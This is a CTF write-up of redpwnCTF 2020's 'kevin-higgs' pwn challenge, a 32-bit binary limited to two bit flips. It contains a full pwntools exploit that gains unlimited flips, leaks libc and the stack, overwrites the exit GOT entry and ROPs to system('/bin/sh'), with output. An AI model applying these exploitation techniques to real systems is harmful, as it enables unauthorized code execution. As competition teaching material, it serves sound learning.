


# redpwnCTF 2020

## pwn/kevin-higgs

> 494
>
> It's basically Rowhammer, right?
>
> `nc 2020.redpwnc.tf 31956`
> 
> **UPDATE**: Although the binary claims that no libc is provided, we chose to provide the Dockerfile mid-CTF. You can find the libc version from the Dockerfile.
> 
> `nc four.jh2i.com 50023`</br>
>
> [`Dockerfile`](Dockerfile) [`kevin-higgs`](kevin-higgs)

Tags: _pwn_ _x86_ _rop_ _write-what-where_ _remote-shell_


## Summary

```
Right now, this program will only let you flip 2 bit(s) anywhere in memory.
That's all you get for now. No libc provided. Live up to kmh's expectations
and get a shell. Note: Your HSCTF solutions don't work anymore :)

Give me the address of the byte (hex uint32):
```

That pretty much sums it up.

> The _No libc provided_ is not entirely correct, and this task can be solved without a _libc provided_, however, the organizers were compelled to supply the version, and did so indirectly with [`Dockerfile`](Dockerfile).
> 
> I was on vacation during this CTF and bandwidth challenged; a local copy of [libc-database](https://github.com/niklasb/libc-database) provided the necessary bits--no need for `docker pull`.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

My first thought was manipulating the GOT to get more than two flips.  With no PIE, it'll be easier.  With no canary, BOF is worth checking out, but the task looks pretty set on _initially_ just flipping two bits.

    
### Decompile with Ghidra

Everything we need is provided by `main` (`FUN_08049267`) and `flipbit` (`FUN_080491e6`).  

> There's no trivial `win` function that will hand you the flag if you change the correct two bits--this isn't one of _those_ [two-bit](https://www.urbandictionary.com/define.php?term=Two-Bit) challenges.



There is no obvious vulnerability here, we really have to find and flip the correct two bits to get started.

`maxflips` is set from an environmental variable (`NUMBER_OF_FLIPS`) further up in `main`.  Each loop iteration prompts for a 32-bit address and a bit position (0-7) to flip.  After two flips (`maxflips`), you'll get a pat on the head and and be shown the exit; i.e., unless you find the correct two bits to flip for infinite flips, or the wrong bit that will result in a crash.

Since `maxflips` and `flipcount` are not globals and stack location random (ASLR), changing the `exit` GOT entry looks like the only promising lead.



`flipbit` is fairly straight forward, flip a bit, any bit (again in writable memory).  And, the global `DAT_0804c090`, if not zero, will leak the changed byte.  This can be used to read any _writable_ byte as long as changing the bit before changing back does not break anything, e.g. you'll be unable to read `puts` in `.got.plt`.


## Exploit

This was one of those challenges where I had to figure it out along the way, and at this point I didn't know exactly how I'd get a shell, but I did have an idea:

1. Obtain infinite flips, if I cannot do this, then go home.
2. Leak libc's location from the GOT--this is standard fare for many CTF challenges.
3. Find a stack address in `kevin-higgs` or libc writable memory.
4. Update `maxflips`, so that `exit` can be repurposed.
5. Repurpose `exit` (one_gadget?  stack pivot?), at this point, unsure.
6. Get a shell, get the flag


### Obtain infinite flips

I wasted more time on this than I want to admit.  I started looking at the obvious places I'd want to jump to, (e.g. `main`), but nothing really worked out.  I should have just sucked it up at the start and wrote something to do this for me:

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./kevin-higgs')
exit_got = binary.got['exit']
exit_plt = binary.plt['exit'] + 6
debug = 0x804c090
```

From the top, the `exit` GOT and PLT entries are pulled from the binary.  The same can be had from GDB:

```
[0x804c01c] exit@GLIBC_2.0  →  0x8049086
```

The objective is to flip two bits in `0x8049086` so that a call to `exit` jumps back to the main code.

```python
s1 = os.popen('objdump -M intel -d ' + binary.path)
s2 = os.popen('ropper --nocolor --file ' + binary.path)
addresses = s1.read() + s2.read()
pairs = []
for i in range(16):
    if hex(exit_plt ^ (1 << i))[2:] in addresses:
        print(i,-1,hex(exit_plt ^ (1 << i)))
        pairs.append((i,-1))
    for j in range(i+1,16):
        if hex(exit_plt ^ (1 << i) ^ (1 << j))[2:] in addresses:
            print(i,j,hex(exit_plt ^ (1 << i) ^ (1 << j)))
            pairs.append((i,j))
```

This was the initial program to check every single and double flip against a list of target locations provided by disassembly and gadgets.  There's only 26 possible single and double flips, at this point I figured I could just quickly rule out those that would not work and find the magic bits--well, it was taking too long, so...

```python
os.environ['NUMBER_OF_FLIPS'] = '2'
candidates = []
context.log_level='WARN'
for i in pairs:
    p = process(binary.path)
    print('testing',i[0],i[1])
    try:
        p.recvuntil('uint32): ',timeout=0.1)
        p.sendline(hex(exit_got + i[0] // 8)[2:])
        p.recvuntil('7): ',timeout=0.1)
        p.sendline(str(i[0] % 8))
        p.recvuntil('uint32): ',timeout=0.1)
        if i[1] == -1:
            p.sendline(hex(debug + i[1] // 8)[2:])
        else:
            p.sendline(hex(exit_got + i[1] // 8)[2:])
        p.recvuntil('7): ',timeout=0.1)
        p.sendline(str(i[1] % 8))
        _ = p.recvuntil('uint32): ',timeout=0.1)
        p.close()
        if _.find(b'uint32): ') != -1:
            candidates.append(i)
    except:
        continue

print()
for i in candidates:
    print('bits',i[0],i[1],end=' ')
    if i[1] == -1:
        print(hex(exit_plt ^ (1 << i[0])))
    else:
        print(hex(exit_plt ^ (1 << i[0]) ^ (1 << i[1])))

os.remove('core')
```

This final section does all the grunt work.  This took surprising very little time to write and I should have just started with this to save time (this CTF was during the middle of the week, I was time constrained, and made poor decisions).

And the answer is:

```
bits 1 9 0x8049284
bits 4 6 0x80490d6
```

A manual test of the `1,9` pair:

```
Right now, this program will only let you flip 2 bit(s) anywhere in memory.
That's all you get for now. No libc provided. Live up to kmh's expectations
and get a shell. Note: Your HSCTF solutions don't work anymore :)

Give me the address of the byte (hex uint32): 804c01c
Give me the index of the bit (0 to 7): 1
Flipping 0x0804c01c at offset 1...
You flipped a bit! You should be proud of yourself, great job!
Give me the address of the byte (hex uint32): 804c01d
Give me the index of the bit (0 to 7): 1
Flipping 0x0804c01d at offset 1...
You flipped a bit! You should be proud of yourself, great job!
Well, at least you tried.
Right now, this program will only let you flip 2 bit(s) anywhere in memory.
That's all you get for now. No libc provided. Live up to kmh's expectations
and get a shell. Note: Your HSCTF solutions don't work anymore :)

Give me the address of the byte (hex uint32):
```

> The 9th bit of `804c01c` is the 1st bit of `804c01d`.

Looks like it worked.  Assuming this is stable for many more bit flips, infinite flips achieved!

Oh, if you're wonder where `0x8049284` (`0x8049086` with `1,9` flipped) is, it's actually in `main`:

```
                             main 
08049267 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
0804926b 83 e4 f0        AND        ESP,0xfffffff0
0804926e ff 71 fc        PUSH       dword ptr [ECX + local_res0]
08049271 55              PUSH       EBP
08049272 89 e5           MOV        EBP,ESP
08049274 53              PUSH       EBX
08049275 51              PUSH       ECX
08049276 83 ec 40        SUB        ESP,0x40
08049279 e8 a2 fe        CALL       __i686.get_pc_thunk.bx         
         ff ff
0804927e 81 c3 82        ADD        EBX,0x2d82
         2d 00 00
08049284 89 c8           MOV        EAX,ECX <======================= RIGHT HERE
```

This is about as close to _ret2main_ as we're going to get.


### Leak libc's location from the GOT

```python
#!/usr/bin/python3

from pwn import *

def flipbit(address,bit):
    p.recvuntil('uint32): ')
    p.sendline(hex(address + bit // 8)[2:])
    p.recvuntil('7): ')
    p.sendline(str(bit % 8))
    _ = p.recvuntil(['Give me','Well, at least you tried.'])
    if b'[debug]' in _:
        i = _.find(b'new byte: ') + 10
        return int(_[i:i+4],16)
    return None

def readbyte(address):
    flipbit(address,0)
    rbyte = flipbit(address,0)
    assert(rbyte != None)
    return rbyte

def readword(address):
    word = 0
    for i in range(4):
        word |= (readbyte(address + i) << 8 * i)
    return word

def write(what, where):
    was = readword(where)
    for i in range(32):
        if (was ^ what) & (1 << i):
            flipbit(where,i)

binary = ELF('./kevin-higgs')
debug = 0x804c090
os.environ['NUMBER_OF_FLIPS'] = '2'

#p = process(binary.path)
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('2020.redpwnc.tf', 31956)
libc = ELF('libc-database/db/libc6-i386_2.28-10_amd64.so')
```

`flipbit` does exactly that, just provide a 32-bit address, and a bit position (0-31); and if debug is enabled the byte after the flip will be returned.

`readbyte` just calls `flipbit` twice to set/reset (or is it reset/set :-).  As long as the bit being flipped does not break anything, this should be safe.  _This is not atomic._

`readword` just calls `readbyte` four times to return a 32-bit word.

`write(what, where)` is literally a _write-what-where_ that will `write` (flip) up to 32-bits of `what` to any writable 32-bit address (`where`).  _This is also not atomic._  (I could have added an optimization if `was` _was_ already known instead of reading it, but was lazy and it works.)

> **_None of these function are safe, all of them change memory, even the `read` functions._**

`debug` is the location of the global `DAT_0804c090` that if non-zero will emit the byte changed post-flip.

```python
# revolving exit
flipbit(binary.got['exit'],1)
flipbit(binary.got['exit'],9)

# debug mode
flipbit(debug,0)
flipbit(debug,1)
```

Once connected, using the `1,9` pair obtain a revolving exit door for infinite free rides, then flip any _two different_ `debug` bits to enable _debug_ mode for leaking bytes.

> Two bits must be flipped or the next stage will fail.  The reads require two flips, if that gets split across an `exit`, then the `setvbuf` `.got.plt` entry will be corrupt, failing when `exit` jumps back to the ~top of `main`.

```python
# get setvbuf plt address, and base libc:
setvbuf = readword(binary.got['setvbuf'])
log.info('setvbuf: ' + hex(setvbuf))
baselibc = setvbuf - libc.symbols['setvbuf']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc
```

To leak libc, just read the PLT address from the GOT.

The libc can be obtained by reading the included `Dockerfile`.  _This did not need to be included, it could have been discovered_, e.g. the last 3 nibbles of the challenge server `setvbuf` is `700` (leaked from above), and can be search with [libc-database](https://github.com/niklasb/libc-database):

```bash
# libc-database/find setvbuf 700 | grep i386
http://http.us.debian.org/debian/pool/main/g/glibc/libc6-i386_2.28-10_amd64.deb (id libc6-i386_2.28-10_amd64)
```

A perfect match:

```bash
# md5sum libc-database/db/libc6-i386_2.28-10_amd64.so libc.so.6
476ae25c77b802a39fb335a615564143  libc-database/db/libc6-i386_2.28-10_amd64.so
476ae25c77b802a39fb335a615564143  libc.so.6 <== pulled (post vacation) from the docker image referenced in the supplied Dockerfile
```

The `Dockerfile`, as part of this challenge, was unnecessary.

After leaking `setvbuf` (selected because it's at the top of `main` and is not called in the _two-bit_ `while` loop) simply compute the base of libc.


### Find a stack address

> This cost me the most amount of time due to the way GDB examines memory (my bad, see _wrong_ vs _right_ way below for a hint).

Launching the binary in GDB and looking at `vmmap`:

```
Start      End        Offset     Perm Path
0x08048000 0x08049000 0x00000000 r-- /pwd/datajerk/redpwnctf2020/kevin-higgs/kevin-higgs
0x08049000 0x0804a000 0x00001000 r-x /pwd/datajerk/redpwnctf2020/kevin-higgs/kevin-higgs
0x0804a000 0x0804b000 0x00002000 r-- /pwd/datajerk/redpwnctf2020/kevin-higgs/kevin-higgs
0x0804b000 0x0804c000 0x00002000 r-- /pwd/datajerk/redpwnctf2020/kevin-higgs/kevin-higgs
0x0804c000 0x0804d000 0x00003000 rw- /pwd/datajerk/redpwnctf2020/kevin-higgs/kevin-higgs
0x0804d000 0x0806f000 0x00000000 rw- [heap]
0xf7dd3000 0xf7fa8000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.27.so
0xf7fa8000 0xf7fa9000 0x001d5000 --- /lib/i386-linux-gnu/libc-2.27.so
0xf7fa9000 0xf7fab000 0x001d5000 r-- /lib/i386-linux-gnu/libc-2.27.so
0xf7fab000 0xf7fac000 0x001d7000 rw- /lib/i386-linux-gnu/libc-2.27.so
0xf7fac000 0xf7faf000 0x00000000 rw-
0xf7fcf000 0xf7fd1000 0x00000000 rw-
0xf7fd1000 0xf7fd4000 0x00000000 r-- [vvar]
0xf7fd4000 0xf7fd6000 0x00000000 r-x [vdso]
0xf7fd6000 0xf7ffc000 0x00000000 r-x /lib/i386-linux-gnu/ld-2.27.so
0xf7ffc000 0xf7ffd000 0x00025000 r-- /lib/i386-linux-gnu/ld-2.27.so
0xf7ffd000 0xf7ffe000 0x00026000 rw- /lib/i386-linux-gnu/ld-2.27.so
0xfffdd000 0xffffe000 0x00000000 rw- [stack]
```

The `rw` sections of libc should contain a stack address.  In this example, `0xf7fab000-0xf7faf000` and `0xf7fcf000-0xf7fd1000`.

> There's probably a GDB way to do this, but dumping memory and using grep was fast and easy.

The wrong way to take a dump:

```
gef➤  p/x 0xf7faf000 - 0xf7fab000
$4 = 0x4000
gef➤  p/x 0xf7fd1000 - 0xf7fcf000
$5 = 0x2000
set logging on
x/4000x 0xf7fab000
x/2000x 0xf7fcf000
set logging off
```

The right way to take a dump:

```
set logging on
set $c = 0
while ($c < (0xf7faf000 - 0xf7fab000))
x/1x 0xf7fab000 + $c
set $c = $c + 4
end 
set $c = 0
while ($c < (0xf7fd1000 - 0xf7fcf000))
x/1x 0xf7fcf000 + $c
set $c = $c + 4
end 
set logging off
```

> Both yield the same memory dumps, however only the _right way_ will emit all symbol names, the _wrong way_ will only emit symbol names for one out of every four addresses (32-bit statement).  This is only important if you want to use symbol names in your code (recommended for portiability) vs. hardcoded offsets, otherwise ignore my opinion.

In this example session, the stack pointer is at `0xffffd4a0`:

```
0xffffd4a0│+0x0000: 0xffffd508  →  0x00000009  ← $esp
```

Grepping for the most significant bits provides the following list of candidate symbols and addresses:

```
# grep 0xffffd gdb.txt
0xf7fabc0c <program_invocation_short_name>:   0xffffd83d
0xf7fabc10 <program_invocation_name>:	0xffffd815
0xf7facdd8 <environ>:	0xffffd6fc
0xf7fae654 <__libc_argv>:	0xffffd6f4
0xf7fd0140:	0xffffd684
```

> I started with, and lost a lot of time with, `program_invocation_name`; the distance from `program_invocation_name` and `maxflips` is dynamic (ASLR), next up was `environ`.

To test a candidate, startup `export NUMBER_OF_FLIPS=2; setarch $(uname -m) -R ./kevin-higgs` in one terminal and `gef kevin-higgs $(pidof kevin-higgs)` in another.

> `setarch $(uname -m) -R` will disable ASLR, useful for documentation and a consistent debug experience.  `gef` is just a set of GDB enhancements like PEDA or pwndgb--any others are fine.

Next, set a breakpoint at `0x8049428` and `continue` (this is the comparison at the top of the loop):

```  
8049425:	8b 45 d4             	mov    eax,DWORD PTR [ebp-0x2c]
8049428:	39 45 dc             	cmp    DWORD PTR [ebp-0x24],eax
```

In the first terminal use the debug address (`0x804c090`) and flip any bit.

Then, back to the GDB terminal, examine `maxflips`:

```
gef➤  x/wx $ebp-0x24
0xffffd694:	0x00000002
```

There's the `2` set by `NUMBER_OF_FLIPS`.

Next, check the distance from `environ` to `maxflips`:

```
gef➤  p/x (void *)environ - ($ebp-0x24)
$1 = 0xd8
```

Feel free to test with ASLR enable, the offset of `0xd8` will be consistent.

Finally, we can leak the stack and know its distance from `maxflips`:

```python
# leak stack
environ = libc.symbols['environ']
log.info('environ: ' + hex(environ))
stackleak = readword(environ)
log.info('stackleak: ' + hex(stackleak))
```


## Update `maxflips`


```python
# free rides condition change
maxflips = stackleak - 0xd8
log.info('maxflips: ' + hex(maxflips))
flipbit(maxflips,31)
```

With `maxflips` location known, just flip the most significant bit.  `exit` will no longer be used to loop back to `main` until that bit is reset.


## Repurpose `exit`

With virtually unlimited flips without the use of `exit` and control of the stack, all that is left is to setup a ROP chain in the stack and update the `exit` GOT entry to call it.

The first step is to find the stack pointer.  To do this put a `pause()` just before `flipbit(maxflips,31)`, run the exploit script (terminal one), at the pause connect with GDB (terminal two), set the same breakpoint as before and then continue (from GDB), then just _return_ to unpause (terminal one).  At the break (terminal two) compute the distance from `maxflips` to `$esp`:

```
gef➤  p/x $ebp-0x24 - $esp
$1 = 0xec
```

> `0xec` is consistently the distance from `maxflips` to `$esp` with this code as written up to this point.  Any changes (extra flips (calls to exit)) and the offset will also change and will need to be recomputed.

In my current session (with ASLR enabled), this is what the stack looks like:

```
0xff8b6768│+0x0000: 0x0804944d  →   xchg ax, ax ← $esp
0xff8b676c│+0x0004: 0x00000000
0xff8b6770│+0x0008: 0x00000000
0xff8b6774│+0x000c: 0x00000000
0xff8b6778│+0x0010: 0x0804936d  →   mov eax, DWORD PTR [eax]
0xff8b677c│+0x0014: 0x0804944d  →   xchg ax, ax
0xff8b6780│+0x0018: 0x00000000
0xff8b6784│+0x001c: 0x00000000
```

The question is, where do we write the payload?  Where will the stack pointer be after a call to `exit`?

Using the existing debug session `maxflips` is set to:

```
gef➤  x/wx $ebp-0x24
0xff8b6854:	0x80000002
```

To set to `0x0` forcing `exit` to be called:

```
gef➤  set {int}($ebp-0x24) = 0x0
gef➤  x/wx $ebp-0x24
0xff8b6854:	0x00000000
```

Now to just `ni` to `exit`, then at `call   0x8049080 <exit@plt>`, type `si`, the next instruction should be at `exit@plt+0`:

```
0x8049080 <exit@plt+0>     jmp    DWORD PTR ds:0x804c01c
```

Now look at the stack:

```
0xff8b6754│+0x0000: 0x0804944d  →   xchg ax, ax ← $esp
0xff8b6758│+0x0004: 0x00000000
0xff8b675c│+0x0008: 0x00000000
0xff8b6760│+0x000c: 0x00000000
0xff8b6764│+0x0010: 0x0804936d  →   mov eax, DWORD PTR [eax]
0xff8b6768│+0x0014: 0x0804944d  →   xchg ax, ax
0xff8b676c│+0x0018: 0x00000000
0xff8b6770│+0x001c: 0x00000000
```

If you look at stack before the exit `$esp` was pointing to `0xff8b6768`, but now is pointing to `0xff8b6754`, a difference of 20 bytes.  We cannot write our payload above the stack, it'll get smashed by normal code execution.  And we cannot simply have `exit@plt` `jmp` to the stack since the NX is enabled.  We will need to find a gadget that will move `$esp` to our exploit code and then on `ret` execute our ROP chain.

There are many `add esp, 0xNN; ret;` gadgets in `libc`, we just need to find one that moves the pointer at least 20 bytes, but not too far:

```python
# esp offset
esp = maxflips - 0xec
log.info('esp: ' + hex(esp))

# find add_esp gadget
offset=20
while True:
    try:
        add_esp = next(libc.search(asm('add esp, ' + hex(offset) + '; ret;')))
        log.info('add_esp: ' + hex(add_esp) + ' ' + hex(offset))
        break
    except:
        offset += 4
        continue
```

Above is the aforementioned `esp` offset discovered using GDB, followed by a search of `libc` for a gadget that will move the stack pointer down stack starting with 20 bytes.

A list of them with a > 20 (`0x14`) offset:

```
0x1c
0x20
0x24
0x2c
0x3c
0x4c
0x7c
0x9c
0x11c
0x12c
```

`0x1c` is 7 stack lines down and will work just fine.

Lastly, we just need to update the GOT, and write out our ROP chain to the stack:

```python
log.info('updating exit got')
write(add_esp,binary.got['exit'])
log.info('adding system to stack')
write(libc.symbols['system'],esp+(offset-20))
log.info('adding /bin/sh to stack')
write(next(libc.search(b'/bin/sh')),esp+(offset-20)+8)
```


### Get a shell, get the flag

```
# one way exit
log.info('"exit" loop to shell')
flipbit(maxflips,31)

p.interactive()
```

After all that, just flip off `maxflips` to call `exit` to call the gadget, that then calls our ROP chain to a shell.

Output:

```
# time ./exploit.py
[*] '/pwd/datajerk/redpwnctf2020/kevin-higgs/kevin-higgs'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 2020.redpwnc.tf on port 31956: Done
[*] '/pwd/datajerk/redpwnctf2020/kevin-higgs/libc-database/db/libc6-i386_2.28-10_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] setvbuf: 0xf7e4b700
[*] baselibc: 0xf7de2000
[*] environ: 0xf7fbddc8
[*] stackleak: 0xffc09f1c
[*] maxflips: 0xffc09e44
[*] esp: 0xffc09d58
[*] add_esp: 0xf7dfcc70 0x1c
[*] updating exit got
[*] adding system to stack
[*] adding /bin/sh to stack
[*] "exit" loop to shell
[*] Switching to interactive mode

$ cat flag.txt
flag{kmh_<3333333333333334444}

real    0m34.954s
user    0m0.809s
sys     0m0.205s
```
